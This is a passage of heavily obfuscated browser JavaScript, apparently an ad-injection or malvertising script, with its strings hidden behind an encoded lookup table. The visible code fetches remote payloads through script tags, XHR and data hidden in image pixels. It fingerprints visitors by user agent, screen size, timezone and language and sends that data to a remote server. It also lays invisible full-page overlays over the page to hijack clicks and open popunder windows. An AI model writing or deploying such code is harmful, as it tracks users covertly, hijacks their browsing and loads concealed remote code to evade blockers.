n||c})})}),t[b('0x51')](function(b){window[b]=!1}),t=[],d=[]}i[b('0x51')](function(x){x[b('0x8b')]||(x[b('0x8b')]=[])})},function(x,n,c){'use strict';Object[b('0x2')](n,b('0x3'),{value:!0});n[b('0x9a')]=b('0x9b');var t=n[b('0x9c')]=b('0x9b'),e=(n[b('0x9d')]=b('0x9e'),n[b('0x9f')]=b('0xa0')),r=n[b('0xa1')]=b('0xa2'),u=n[b('0xa3')]=b('0x9e'),a=n[b('0xa4')]=b('0xa5'),o=n[b('0xa6')]=b('0xa7'),f=n[b('0x6d')]={};f[t]=b('0xa8'),f[e]=b('0xa9'),f[r]=b('0xaa'),f[u]=b('0xab'),f[a]=b('0xac'),f[o]=b('0xad');var i=n[b('0x74')]={};i[t]=b('0xae'),i[o]=b('0xaf')},function(x,n,c){'use strict';Object[b('0x2')](n,b('0x3'),{value:!0});n[b('0xb0')]=750,n[b('0xb1')]=b('0xb2'),n[b('0xb3')]=[b('0xb4'),b('0xb5'),b('0xb6'),b('0xb7'),b('0xb8'),b('0xb9')],n[b('0xba')]='x',n[b('0xbb')]=b('0xbc');var t=n[b('0xbd')]=b('0xbe'),e=n[b('0xbf')]=document[b('0x79')](t),r=n[b('0xc0')]=999999,u=n[b('0xc1')]=b('0xc2');n[b('0xc3')]=b('0xc4'),n[b('0xc5')]=[b('0xbe'),b('0xc6'),b('0xc7'),b('0xc8'),'p'],n[b('0xc9')]=[b('0xca'),b('0xcb'),b('0xcc')],n[b('0xcd')]=b('0xce'),n[b('0xcf')]=b('0xd0'),n[b('0xd1')]=!0,n[b('0xd2')]=!1,n[b('0xd3')]=b('0xd4'),n[b('0xd5')]=b('0xd6'),n[b('0xd7')]=b('0xd8'),n[b('0xd9')]=b('0xda'),n[b('0xdb')]=300;e[b('0x7b')][b('0xdc')]=r,e[b('0x7b')][b('0xdd')]=u},function(x,n,c){'use strict';Object[b('0x2')](n,b('0x3'),{value:!0}),n[b('0xde')]=function(x){var n=m(d),c=btoa(R(x));return b('0x108')+(0,o[b('0x1c')])()+'/'+n+b('0x10d')+c},n[b('0xdf')]=w,n[b('0xe0')]=W,n[b('0xe1')]=F,n[b('0xe2')]=function(x,n,c,t){if(x=R(x),c&&c!==r[b('0x119')])return F(x,n,c,t);return function x(n,c,t){var e=n[b('0x90')]();if(!e)return new Promise(function(b,x){return x()});return U[e](c,t||b('0x10a'))[b('0x10b')](function(b){return localStorage[v]=e,b})[b('0x10c')](function(){return x(n,c,t)})}((e=[localStorage[v]][b('0x99')](Object[b('0x26')](U)),e[b('0x8d')](function(x,n){return x&&e[b('0x97')](x)===n})),x,n)[b('0x10b')](function(x){return x&&x[b('0x11a')]?x:{status:200,response:x}});var e};var a=c(13),o=c(1),r=c(14),f=c(0),i=c(17),t=new RegExp(b('0xe3'),'i'),e=new RegExp(b('0xe4')),u=new RegExp('^/'),d=[b('0xe5'),b('0xe6'),b('0xe7'),b('0xe8'),b('0xe9'),b('0xea'),b('0xeb'),b('0xec'),b('0xed')],l=[b('0x7b'),b('0xee'),b('0xe8'),b('0xef'),b('0xf0'),b('0xf1'),b('0xf2')],V=[b('0xf3'),b('0xf4'),b('0xf5'),b('0xf6'),b('0xf7'),b('0xf8'),b('0xf9'),b('0xfa'),b('0xfb')],Z=[b('0xfc'),b('0xfd'),b('0xfe'),b('0xff'),b('0x100'),b('0x101'),b('0x102'),b('0x103')],v=[b('0x104'),f[b('0x7')][b('0x38')](36)][b('0x24')](''),U={};function m(x){return x[Math[b('0x105')](Math[b('0x42')]()*x[b('0x3c')])]}function R(x){return t[b('0x106')](x)?x:e[b('0x106')](x)?b('0x107')+x:u[b('0x106')](x)?b('0x108')+window[b('0x4c')][b('0x109')]+x:window[b('0x4c')][b('0x4d')][b('0x3a')]('/')[b('0x43')](0,-1)[b('0x99')](x)[b('0x24')]('/')}function w(x,n){var c=b('0x10e'),t=m(l),e=b('0x108')+(0,o[b('0x1c')])()+'/'+t+b('0x10f')+btoa(x);return(0,a[b('0x110')])(e,n)[b('0x10b')](function(x){return(0,i[b('0x111')])(f[b('0x7')],c),x})[b('0x10c')](function(x){throw(0,i[b('0x112')])(f[b('0x7')],c,e),x})}function W(x,n){var c=b('0x113'),t=m(V),e=b('0x108')+(0,o[b('0x1c')])()+'/'+t+b('0x114')+btoa(x);return(0,a[b('0x115')])(e,n)[b('0x10b')](function(x){return(0,i[b('0x111')])(f[b('0x7')],c),x})[b('0x10c')](function(x){throw(0,i[b('0x112')])(f[b('0x7')],c,e),x})}function F(x,n,c,t){var e=b('0x116'),r=m(Z),u=b('0x108')+(0,o[b('0x1c')])()+'/'+r+b('0x117');return(0,a[b('0x118')])(u,x,n,c,t)[b('0x10b')](function(x){return(0,i[b('0x111')])(f[b('0x7')],e),x})[b('0x10c')](function(x){throw(0,i[b('0x112')])(f[b('0x7')],e,u),x})}U.c=w,U.p=W,U.x=F},function(x,n,c){'use strict';Object[b('0x2')](n,b('0x3'),{value:!0}),n[b('0x11b')]=void 0,n[b('0x11c')]=function(t,e,r){var u=t[b('0x120')][b('0x3a')](o)[b('0x8d')](function(x){return!o[b('0x106')](x)}),a=0;return t[b('0x21')]=u[a],t[b('0x3c')]=u[b('0x3c')],function(x){var n=x&&x[b('0xfc')]&&x[b('0xfc')].id,c=x&&x[b('0xfc')]&&x[b('0xfc')][b('0x53')];if(n===e)for(;c--;)a=(a+=r)>=u[b('0x3c')]?0:a,t[b('0x21')]=u[a]}},n[b('0x11d')]=function(x){var n=new Event(e[b('0x3e')]);n[b('0x52')]=x,r[b('0x121')](n)},n[b('0x11e')]=function(c,x){return Array[b('0x122')](null,{length:x})[b('0x3b')](function(x,n){return(0,t[b('0x36')])(c,n)})[b('0x24')]('!')};var t=c(3),e=c(4),o=n[b('0x11b')]=new RegExp(b('0x11f'),''),r=(typeof document!==b('0x3f')?document:{currentScript:null})[b('0x40')]},function(x,n,c){'use strict';Object[b('0x2')](n,b('0x3'),{value:!0}),n[b('0x6e')]=function(x){V=x,r[b('0x51')](function(b){return b(x)})},n[b('0x123')]=function(x){r[b('0x8a')](x),V&&x(V)},n[b('0x124')]=function(e){if(!V)return null;var r=Z,x=(t=['P','N',b('0x125'),b('0x126'),b('0x127'),b('0x128'),b('0x129'),b('0x12a')],o=['0','00',b('0x12b'),b('0x12c'),b('0x12d')],f=[b('0x12e'),b('0x12f'),b('0x130'),b('0x131'),b('0x132'),b('0x133'),b('0xc7'),b('0x101'),b('0x134'),b('0x135'),b('0xe8'),b('0x136')],i=Math[b('0x105')](Math[b('0x42')]()*t[b('0x3c')]),d=t[i][b('0x137')](/P/g,function(){var x=Math[b('0x105')](Math[b('0x42')]()*f[b('0x3c')]);return f[x]})[b('0x137')](/N/g,function(){var x=Math[b('0x105')](Math[b('0x42')]()*o[b('0x3c')]),n=o[x],c=Math[b('0x138')](10,n[b('0x3c')]),t=Math[b('0x105')](Math[b('0x42')]()*c);return(''+n+t)[b('0x43')](-1*n[b('0x3c')])}),'//'+V+'/'+d+b('0x1e')),u=(c=x,c[b('0x3a')]('/')[b('0x43')](3)[b('0x24')]('/')[b('0x3a')]('')[b('0x98')](function(x,n,c){var t=Math[b('0x138')](c+1,7);return x+n[b('0x39')](0)*t},3571)[b('0x38')](36)),a=(n=document[b('0x79')](b('0x7a')),n[b('0x7b')][b('0x7e')]=b('0x7d'),n[b('0x7b')][b('0x49')]=b('0x7d'),n[b('0x7b')][b('0x7c')]=0,n);var n;var c;var t,o,f,i,d;return window[b('0x55')](b('0x139'),function x(n){var c=Object[b('0x26')](n[b('0xfc')])[b('0x89')]();if(c===u)if(null===n[b('0xfc')][c]){var t={};t[c]=e,a[b('0x82')][b('0x54')](t,'*'),r=U}else a[b('0x6a')][b('0x83')](a),window[b('0x44')](b('0x139'),x),r=m}),a[b('0x7f')]=x,document[b('0x5e')][b('0x81')](a),r=v,function(){return r===m?(r=R,(0,l[b('0x4')])(x,b('0x13a'))):null}};var t,e=c(21),l=(t=e)&&t[b('0x3')]?t:{default:t};var V=void 0,Z=0,v=1,U=2,m=3,R=4,r=[]},function(x,n,c){'use strict';Object[b('0x2')](n,b('0x3'),{value:!0}),n[b('0x4')]=function(x){try{return x[b('0x3a')]('/')[2][b('0x3a')]('.')[b('0x43')](-2)[b('0x24')]('.')[b('0x13b')]()}catch(b){return''}}},function(x,n,c){'use strict';Object[b('0x2')](n,b('0x3'),{value:!0}),n[b('0x110')]=function(x,u){return new(o[b('0x4')])(function(t,e){var r=document[b('0x79')](a[b('0xd3')]);r[b('0x4d')]=x,r[b('0x142')]=a[b('0xd5')],r[b('0x143')]=a[b('0xd9')],r[b('0x144')]=a[b('0xd7')],document[b('0x145')][b('0x146')](r,document[b('0x145')][b('0x147')]),r[b('0x148')]=function(){try{var x=(n=r[b('0x4d')],((c=Array[b('0x5')][b('0x43')][b('0x1')](document[b('0x13c')])[b('0x8d')](function(x){return x[b('0x4d')]===n})[b('0x89')]()[b('0x13d')])[0][b('0x13e')][b('0x13f')](b('0x140'))?c[0][b('0x7b')][b('0x141')]:c[2][b('0x7b')][b('0x141')])[b('0x43')](1,-1));r[b('0x6a')][b('0x83')](r),u===V[b('0x149')]?t(v(x)):t(Z(x))}catch(b){e()}var n,c},r[b('0x88')]=function(){r[b('0x6a')][b('0x83')](r),e()}})},n[b('0x115')]=function(n,l){return new(o[b('0x4')])(function(i,x){var d=new Image;d[b('0x144')]=b('0x14a'),d[b('0x7f')]=n,d[b('0x148')]=function(){var x=document[b('0x79')](b('0x14b'));x[b('0x7e')]=d[b('0x7e')],x[b('0x49')]=d[b('0x49')];var n=x[b('0x14c')]('2d');n[b('0x14d')](d,0,0);for(var c=n[b('0x14e')](0,0,d[b('0x7e')],d[b('0x49')]),t=c[b('0xfc')],e=t[b('0x43')](0,12)[b('0x8d')](function(b,x){return(x+1)%4})[b('0x14f')]()[b('0x98')](function(x,n,c){return x+n*Math[b('0x138')](256,c)},0),r=[],u=12;u<t[b('0x3c')];u++)if((u+1)%4){var a=t[u];(l===V[b('0x149')]||32<=a)&&r[b('0x8a')](String[b('0x35')](a))}var o=btoa(r[b('0x24')]('')[b('0x150')](0,e)),f=l===V[b('0x149')]?v(o):Z(o);return i(f)},d[b('0x88')]=function(){return x()}})},n[b('0x118')]=function(x,e){var r=2<arguments[b('0x3c')]&&void 0!==arguments[2]?arguments[2]:V[b('0x151')],u=3<arguments[b('0x3c')]&&void 0!==arguments[3]?arguments[3]:V[b('0x119')],a=4<arguments[b('0x3c')]&&void 0!==arguments[4]?arguments[4]:{};return new(o[b('0x4')])(function(n,c){var t=new XMLHttpRequest;t[b('0x152')](u,x),t[b('0x153')]=r,t[b('0x154')]=!0,t[b('0x155')](V[b('0x156')],btoa(encodeURI(e))),t[b('0x148')]=function(){var x={};x[b('0x157')]=t[b('0x157')],x[b('0x11a')]=r===V[b('0x151')]?JSON[b('0x158')](t[b('0x11a')]):t[b('0x11a')],0<=[200,204][b('0x97')](t[b('0x157')])?n(x):c(new Error(b('0x159')+t[b('0x157')]+' '+t[b('0x15a')]+b('0x15b')+e))},t[b('0x88')]=function(){c(new Error(b('0x159')+t[b('0x157')]+' '+t[b('0x15a')]+b('0x15b')+e))},u===V[b('0x15c')]?(t[b('0x155')](V[b('0x15d')],V[b('0x15e')]),t[b('0x15f')](JSON[b('0x158')](a))):t[b('0x15f')]()})};var t,a=c(8),V=c(14),e=c(15),o=(t=e)&&t[b('0x3')]?t:{default:t};function Z(x){return decodeURIComponent(atob(x)[b('0x3a')]('')[b('0x3b')](function(x){return'%'+('00'+x[b('0x39')](0)[b('0x38')](16))[b('0x43')](-2)})[b('0x24')](''))}function v(x){var c=atob(x),n=new ArrayBuffer(c[b('0x3c')]);return new Uint8Array(n)[b('0x3b')](function(x,n){return c[b('0x39')](n)})}},function(x,n,c){'use strict';Object[b('0x2')](n,b('0x3'),{value:!0});n[b('0x156')]=b('0x160'),n[b('0x15d')]=b('0x161'),n[b('0x15e')]=b('0x162'),n[b('0x151')]=b('0x163'),n[b('0x149')]=b('0x164'),n[b('0x119')]=b('0x165'),n[b('0x15c')]=b('0x166')},function(x,n,c){'use strict';Object[b('0x2')](n,b('0x3'),{value:!0});var t,e=c(30),r=(t=e)&&t[b('0x3')]?t:{default:t};var u=window[b('0x167')]||r[b('0x4')];n[b('0x4')]=u},function(Qi,Ri){var Si;Si=function(){return this}();try{Si=Si||Function(b('0x168'))()||eval(b('0x169'))}catch(x){typeof window===b('0x16a')&&(Si=window)}Qi[b('0x0')]=Si},function(x,n,c){'use strict';Object[b('0x2')](n,b('0x3'),{value:!0});var W=function(x,n){if(Array[b('0x16f')](x))return x;if(Symbol[b('0x16b')]in Object(x))return function(x,n){var c=[],t=!0,e=!1,r=void 0;try{for(var u,a=x[Symbol[b('0x16b')]]();!(t=(u=a[b('0x16c')]())[b('0x16d')])&&(c[b('0x8a')](u[b('0x53')]),!n||c[b('0x3c')]!==n);t=!0);}catch(b){e=!0,r=b}finally{try{!t&&a[b('0x16e')]&&a[b('0x16e')]()}finally{if(e)throw r}}return c}(x,n);throw new TypeError(b('0x170'))};n[b('0x111')]=function(x,n){var c=T(x,n),t=W(c,3),e=t[0],r=t[1],u=t[2],a=parseInt(localStorage[u],10)||0;localStorage[u]=a+1,localStorage[e]=(new Date)[b('0x178')](),localStorage[r]=''},n[b('0x112')]=function(x,n,c){var t=T(x,n),e=W(t,3),r=e[0],u=e[1],a=e[2];if(localStorage[r]&&!localStorage[u]){var o=parseInt(localStorage[a],10)||0,f=parseInt(localStorage[r],10),i=(new Date)[b('0x178')](),d=i-f,l=document,V=l[b('0x179')],Z=window[b('0x4c')][b('0x4d')];localStorage[u]=i,localStorage[a]=0;var v={};v[b('0x17a')]=x,v[b('0x179')]=V,v[b('0x17b')]=d,v[b('0x17c')]=c,v[b('0x17d')]=i,v[b('0x17e')]=function(){var x=localStorage[X];if(x)return x;var n=Math[b('0x42')]()[b('0x38')](36)[b('0x43')](2);return localStorage[X]=n}(),v[b('0x17f')]=Z,v[b('0x180')]=f,v[b('0x181')]=o,v[b('0x182')]=navigator.userAgent,v[b('0x183')]=window.screen.width,v[b('0x184')]=window.screen.height,v[b('0x185')]=n||Y,v[b('0x186')]=(new Date).getTimezoneOffset(),v[b('0x187')]=(0,F.default)(c),v[b('0x188')]=(0,F.default)(V),v[b('0x189')]=(0,F.default)(Z),v[b('0x18a')]=navigator.language||navigator.userLanguage,U=v,m='//'+(0,s[b('0x1c')])()+b('0x177'),R=Object[b('0x26')](U)[b('0x3b')](function(x){var n=encodeURIComponent(U[x]);return[x,n][b('0x24')]('=')})[b('0x24')]('&'),(w=new XMLHttpRequest)[b('0x152')](b('0x166'),m,!0),w[b('0x155')](G,h),w[b('0x15f')](R)}var U,m,R,w};var t,e=c(12),F=(t=e)&&t[b('0x3')]?t:{default:t},s=c(1);var G=b('0x161'),h=b('0x171'),X=b('0x172'),r='f',u='s',a='u',Y=b('0x173'),o={};function T(x,n){var c=o[n]||a,t=parseInt(x,10)[b('0x38')](36);return[[X,t][b('0x24')](c),[X,t,r][b('0x24')](c),[X,t,u][b('0x24')](c)]}o[b('0x174')]='s',o[b('0x175')]='c',o[b('0x176')]='j',o[b('0x10e')]='y',o[b('0x113')]='p',o[b('0x116')]='x'},function(x,n,c){'use strict';var t=c(1),e=c(4),r=c(5),u=c(23),a=c(7),o=c(2),f=c(8),i=c(10),d=U(c(29)),l=c(0),V=U(c(34)),Z=c(9),v=c(6);function U(x){return x&&x[b('0x3')]?x:{default:x}}(0,r[b('0x59')])();var m=[],R=[];function w(x){window[o[b('0x2b')]]||l[b('0xe')]!==a[b('0xa6')]||(window[o[b('0x2b')]]=Z[b('0xe2')]),(0,V[b('0x4')])(x)[b('0x10b')](function(){l[b('0xe')]===a[b('0x9c')]&&(0,v[b('0x87')])([l[b('0x7')],l[b('0x8')]],(0,t[b('0x1c')])())})[b('0x10c')](function(){if(l[b('0xe')]===a[b('0x9c')]){var x=(0,t[b('0x1b')])((0,t[b('0x1d')])(),l[b('0x7')]);(0,u[b('0x18b')])(x),(0,u[b('0x18c')])(l[b('0xc')],b('0x18d'),x)}})}function W(x){var n=x||l[b('0xe')];if((0,r[b('0x5b')])()){if(-1<m[b('0x97')](n))return null;m[b('0x8a')](n)}return(0,r[b('0x5a')])(n)?null:-1<R[b('0x97')](l[b('0x7')])?null:(R[b('0x8a')](l[b('0x7')]),(0,r[b('0x5c')])(),setTimeout(w,f[b('0xdb')],n))}window[l[b('0x19')]]=W,window[l[b('0x1a')]]=W,setTimeout(W,o[b('0x2a')]),(0,i[b('0x11d')])(e[b('0x3d')]),(0,d[b('0x4')])()},function(x,n,c){'use strict';Object[b('0x2')](n,b('0x3'),{value:!0}),n[b('0x23')]=n[b('0x27')]=n[b('0x22')]=n[b('0x26')]=n[b('0x20')]=n[b('0x25')]=void 0;var t=c(4),e=c(2),r=c(10),u=c(0),a=n[b('0x25')]={},o=n[b('0x20')]={},f=n[b('0x26')]={},i=n[b('0x22')]={},d=n[b('0x27')]={},l=n[b('0x23')]={};a[b('0x120')]=u[b('0x13')],o[b('0x120')]=u[b('0x16')],window[b('0x55')](b('0x139'),(0,r[b('0x11c')])(a,t[b('0x3d')],1)),window[b('0x55')](b('0x139'),(0,r[b('0x11c')])(o,t[b('0x3d')],1));var V=a[b('0x3c')]*e[b('0x33')],Z=o[b('0x3c')]*e[b('0x33')];f[b('0x120')]=(0,r[b('0x11e')])(u[b('0x15')],V),i[b('0x120')]=(0,r[b('0x11e')])(u[b('0x18')],Z),d[b('0x120')]=u[b('0x14')],l[b('0x120')]=u[b('0x17')],window[b('0x55')](b('0x139'),(0,r[b('0x11c')])(i,t[b('0x3d')],e[b('0x33')])),window[b('0x55')](b('0x139'),(0,r[b('0x11c')])(l,t[b('0x3d')],1)),window[b('0x55')](b('0x139'),(0,r[b('0x11c')])(f,t[b('0x3d')],e[b('0x33')])),window[b('0x55')](b('0x139'),(0,r[b('0x11c')])(d,t[b('0x3d')],1))},function(x,n,c){'use strict';Object[b('0x2')](n,b('0x3'),{value:!0}),n[b('0x45')]=function(x){{if(e[b('0x106')](x))return 3;if(r[b('0x106')](x))return 2}return 1},n[b('0x47')]=function(b){return i(a,b)},n[b('0x4a')]=function(x){return i(o,x[b('0x195')]())},n[b('0x4e')]=function(b){return i(f,b)},n[b('0x4b')]=function(x){return x[b('0x3a')]('/')[b('0x43')](1)[b('0x8d')](function(b){return b})[b('0x90')]()[b('0x3a')]('.')[b('0x43')](-2)[b('0x24')]('.')[b('0x13b')]()[b('0x3a')]('')[b('0x98')](function(x,n){return x+(0,t[b('0x34')])(n)},0)%6+1};var t=c(3),e=new RegExp(b('0x18e'),'i'),r=new RegExp(b('0x18f'),'i'),u=2,a=[[768],[1024,568,360],[1080,736],[900,864,812],[667,800]],o=[[240],[-60],[-120],[-480,-180],[300,360,-240,-720]],f=[[b('0x190')],[b('0x191')],[b('0x192')],[b('0x193')],[b('0x194')]];function i(x,n){try{var c=x[b('0x8d')](function(x){return-1<x[b('0x97')](n)})[b('0x90')]();return x[b('0x97')](c)+u}catch(b){return 0}}},function(x,n,c){'use strict';Object[b('0x2')](n,b('0x3'),{value:!0}),n[b('0x4')]=function(x,n,c){var t=r[b('0x4')][b('0x196')][b('0x79')](b('0x7a'));t[b('0x7b')][b('0x7e')]=b('0x7d'),t[b('0x7b')][b('0x49')]=b('0x7d'),t[b('0x7b')][b('0x7c')]=0,t[b('0x7f')]=b('0x80'),r[b('0x4')][b('0x196')][b('0x5e')][b('0x81')](t);var e=t[b('0x82')][b('0x152')][b('0x1')](r[b('0x4')][b('0x197')],x,n,c);return r[b('0x4')][b('0x196')][b('0x5e')][b('0x83')](t),e};var t,e=c(22),r=(t=e)&&t[b('0x3')]?t:{default:t}},function(x,n,c){'use strict';Object[b('0x2')](n,b('0x3'),{value:!0});var t={};typeof window!==b('0x3f')&&(t[b('0x197')]=window,typeof window[b('0x48')]!==b('0x3f')&&(t[b('0x198')]=window[b('0x48')])),typeof document!==b('0x3f')&&(t[b('0x196')]=document),typeof navigator!==b('0x3f')&&(t[b('0xc8')]=navigator),t[b('0x199')]=function(){if(!window[b('0x66')])return null;try{var x=window[b('0x66')][b('0x19a')],n=x[b('0x79')](b('0xe5'));return x[b('0x145')][b('0x81')](n),n[b('0x6a')]!==x[b('0x145')]?!1:(n[b('0x6a')][b('0x83')](n),t[b('0x197')]=window[b('0x66')],t[b('0x196')]=t[b('0x197')][b('0x19a')],!0)}catch(b){return!1}},t[b('0x19b')]=function(){try{return t[b('0x196')][b('0x40')][b('0x6a')]!==t[b('0x196')][b('0x145')]&&(t[b('0x19c')]=t[b('0x196')][b('0x40')][b('0x6a')],t[b('0x19c')][b('0x7b')][b('0x19d')]&&t[b('0x19c')][b('0x7b')][b('0x19d')]!==b('0x134')||(t[b('0x19c')][b('0x7b')][b('0x19d')]=b('0x19e')),!0)}catch(b){return!1}},n[b('0x4')]=t},function(x,n,c){'use strict';Object[b('0x2')](n,b('0x3'),{value:!0}),n[b('0x19f')]=m,n[b('0x1a0')]=R,n[b('0x1a1')]=w,n[b('0x18b')]=s,n[b('0x18c')]=function(x,n,c){var t=(new Date)[b('0x178')]();(0,i[b('0x1ac')])(t)&&m();var r=function(x){var n=F(o[b('0xc5')]),c=F(o[b('0xc9')]),t=document[b('0x79')](n),e=c[b('0x137')]('%s',x);t[b('0x1a6')]=e;var r=t[b('0x1a7')]('a')[0];r[b('0x142')]=o[b('0xc3')],r[b('0x7b')][b('0x19d')]=b('0x1a8'),r[b('0x7b')][b('0xdc')]=W(9999999,99999999),r[b('0x7b')][b('0x7e')]=W(98,101)+'%',r[b('0x7b')][b('0x49')]=W(98,101)+'%',r[b('0x7b')][b('0x66')]=W(0,4)+'px',r[b('0x7b')][b('0x1a9')]=W(0,4)+'px',r[b('0x7b')][b('0x67')]=W(0,4)+'px',r[b('0x7b')][b('0x1aa')]=W(0,4)+'px';var u={};return u[b('0x1ab')]=t,u[b('0xd4')]=r,u}(c);document[b('0x55')](o[b('0xcd')],function(x){(0,i[b('0x1ac')])()&&(x[b('0x1ad')](),x[b('0x1ae')](),R(),document[b('0x5e')]&&document[b('0x5e')][b('0x81')](r[b('0x1ab')]))},o[b('0xd1')]),r[b('0xd4')][b('0x55')](o[b('0xcf')],function(x){var n=''+r[b('0xd4')][b('0x4d')]+f[b('0x1af')],c=d[b('0xd')]&&d[b('0xd')][b('0x1b0')],t=d[b('0xd')]&&d[b('0xd')][b('0xd4')],e=d[b('0xd')]&&d[b('0xd')][b('0x1b1')];(0,i[b('0x1b2')])(),x[b('0x1ad')](),x[b('0x1ae')](),x[b('0x1b3')](),U&&U()?s():(0,u[b('0x4')])(n,c,t,e,!0),r[b('0x1ab')][b('0x1b4')]()},o[b('0xd1')])};var t,e=c(24),u=(t=e)&&t[b('0x3')]?t:{default:t},a=c(5),o=c(8),f=c(26),i=c(27),d=c(0),r=c(6),l=c(1),V=c(11);var Z=[],v=void 0,U=void 0;function m(){R();var x=(0,a[b('0x57')])(o[b('0xb1')])[b('0x8d')](function(x){var n=x[b('0x1a2')],c=x[b('0x1a3')];return!o[b('0xb3')][b('0x1a4')](function(x){return[n,c][b('0x24')](o[b('0xba')])===x})});Z=x[b('0x3b')](function(x){var n=(0,a[b('0x56')])(x),c=n[b('0x66')],t=n[b('0x67')],e=n[b('0x1a2')],r=n[b('0x1a3')],u={};return u[b('0x19d')]=o[b('0xbb')],u[b('0x66')]=c+'px',u[b('0x67')]=t+'px',u[b('0x7e')]=e+'px',u[b('0x49')]=r+'px',w(u)}),v=setTimeout(m,o[b('0xb0')])}function R(){Z=Z[b('0x8d')](function(x){return x[b('0x6a')]&&x[b('0x6a')][b('0x83')](x),!1}),v&&clearTimeout(v)}function w(n){var c=o[b('0xbf')][b('0x1a5')](o[b('0xd2')]);return Object[b('0x26')](n)[b('0x51')](function(x){c[b('0x7b')][x]=n[x]}),document[b('0x5e')][b('0x81')](c),c}function W(x,n){var c=n-x,t=Math[b('0x42')]()*c+x;return Math[b('0x105')](t)}function F(x){return x[W(0,x[b('0x3c')])]}function s(x){(0,r[b('0x87')])([d[b('0x7')],d[b('0x8')]],(0,l[b('0x1c')])()),U=(0,V[b('0x124')])(x)}},function(x,n,c){'use strict';Object[b('0x2')](n,b('0x3'),{value:!0}),n[b('0x4')]=function(n,x,c,t,e){var r=c||(0,o[b('0x4')])(t),u=Math[b('0x42')]()[b('0x38')](36)[b('0x43')](2),a=window[b('0x152')](r,u);return setTimeout(function(){try{if(a[b('0x1b5')])throw new Error}catch(b){return}try{a[b('0x19a')][b('0x4c')]=n}catch(x){window[b('0x152')](n,u)}if(e)try{a[b('0x1b6')]=null}catch(b){}},x||500),a};var t,e=c(25),o=(t=e)&&t[b('0x3')]?t:{default:t}},function(x,n,c){'use strict';Object[b('0x2')](n,b('0x3'),{value:!0}),n[b('0x4')]=function(u){var a=(0,o[b('0x4')])(window[b('0x4c')][b('0x4d')]),x=document[b('0x68')](b('0x1ba')),n=[][b('0x43')][b('0x1')](x)[b('0x8d')](function(x){var n=(0,o[b('0x4')])(x[b('0x7f')]),c=n[b('0x13b')]()===a[b('0x13b')](),t=-1<x[b('0x7f')][b('0x97')]('?'),e=c||!u,r=i[b('0x106')](x[b('0x7f')]);return e&&!t&&!r});n[b('0x1bb')](function(x,n){try{var c=x[b('0x65')](),t=n[b('0x65')](),e=c[b('0x7e')]*c[b('0x49')],r=t[b('0x7e')]*t[b('0x49')];return e===r?0:r<e?-1:1}catch(b){return 0}});var c=n[b('0x8d')](function(x){var n=[][b('0x43')][b('0x1')](x[b('0x1bc')])[b('0x24')](' '),c=f[b('0x106')](x.id),t=f[b('0x106')](x[b('0x7f')]),e=f[b('0x106')](n);return c||t||e}),t=0<c[b('0x3c')]?c[0][b('0x7f')]:'',e=0<n[b('0x3c')]?n[0][b('0x7f')]:'';return t||e||r};var t,e=c(12),o=(t=e)&&t[b('0x3')]?t:{default:t};var r=b('0x1b7'),f=new RegExp(b('0x1b8'),'i'),i=new RegExp(b('0x1b9'),'i')},function(x,n,c){'use strict';Object[b('0x2')](n,b('0x3'),{value:!0});n[b('0x1af')]='?q'},function(x,n,c){'use strict';Object[b('0x2')](n,b('0x3'),{value:!0});var a=function(x,n){if(Array[b('0x16f')](x))return x;if(Symbol[b('0x16b')]in Object(x))return function(x,n){var c=[],t=!0,e=!1,r=void 0;try{for(var u,a=x[Symbol[b('0x16b')]]();!(t=(u=a[b('0x16c')]())[b('0x16d')])&&(c[b('0x8a')](u[b('0x53')]),!n||c[b('0x3c')]!==n);t=!0);}catch(b){e=!0,r=b}finally{try{!t&&a[b('0x16e')]&&a[b('0x16e')]()}finally{if(e)throw r}}return c}(x,n);throw new TypeError(b('0x170'))};n[b('0x1ac')]=function(){var x=d(),n=a(x,3),c=n[0],t=n[1],e=n[2];if(c+f<(new Date)[b('0x178')]())return l((new Date)[b('0x178')](),0,0),0<o[b('0x9')];var r=e<o[b('0x9')],u=t+i<(new Date)[b('0x178')]();if(r&&u)return!0;return!1},n[b('0x1b2')]=function(){var x=d(),n=a(x,3),c=n[0],t=n[2];l(c,(new Date)[b('0x178')](),t+1)};var t=c(28),r=c(2),o=c(0),f=o[b('0xa')]*t[b('0x1bd')],i=o[b('0xb')]*t[b('0x1be')];function d(){var x=(localStorage[r[b('0x2d')]]||'')[b('0x3a')](r[b('0x2f')]),n=a(x,3),c=n[0],t=n[1],e=n[2];return[parseInt(c,10)||(new Date)[b('0x178')](),parseInt(t,10)||0,parseInt(e,10)||0]}function l(x,n,c){var t=[x,n,c][b('0x24')](r[b('0x2f')]);localStorage[r[b('0x2d')]]=t}},function(x,n,c){'use strict';Object[b('0x2')](n,b('0x3'),{value:!0});n[b('0x1be')]=1e3,n[b('0x1bd')]=36e5},function(x,n,c){'use strict';Object[b('0x2')](n,b('0x3'),{value:!0}),n[b('0x4')]=function(){try{(t=new BroadcastChannel(i))[b('0x55')](b('0x139'),e)}catch(b){}window[b('0x55')](b('0x139'),e)};var o=c(9),f=c(0),i=b('0x1bf'),d=b('0x1c0'),l=b('0x1c1'),V=b('0x1c2'),Z=b('0x1c3'),v=b('0x1c4'),U=b('0x11a'),t=void 0;function e(x){var c=x&&x[b('0xfc')]&&x[b('0xfc')][b('0x1c5')],n=x&&x[b('0xfc')]&&x[b('0xfc')][b('0x143')],t=x&&x[b('0xfc')]&&x[b('0xfc')][b('0x1c6')],e=x&&x[b('0xfc')]&&x[b('0xfc')][b('0x1c7')],r=x&&x[b('0xfc')]&&x[b('0xfc')][b('0x1c8')],u=r===f[b('0x7')],a={};t===i&&(n===d?(a[b('0x143')]=l,a[b('0x1c9')]=f[b('0xe')],a[b('0x1c8')]=f[b('0x7')],a[b('0x1ca')]=f[b('0x8')]):n!==V||!e||r&&!u||(a[b('0x143')]=Z,a[b('0x1c7')]=e,(0,o[b('0xe2')])(c)[b('0x10b')](function(x){var n={};n[b('0x143')]=U,n[b('0x1c5')]=c,n[b('0x1c7')]=e,n[b('0xfc')]=x,m(n)})[b('0x10c')](function(x){var n={};n[b('0x143')]=v,n[b('0x1c5')]=c,n[b('0x1c7')]=e,n[b('0xfa')]=x&&x[b('0x139')],m(n)})),a[b('0x143')]&&m(a))}function m(x){x[b('0x1c6')]=i,t&&t[b('0x54')](x),window[b('0x54')](x,'*')}},function(x,n,c){(function(r){!function(i,d){function l(b,x){return(typeof x)[0]==b}function V(o,f){return(f=function n(c,t,e,r,u,x){if(r=n.q,c!=l)return 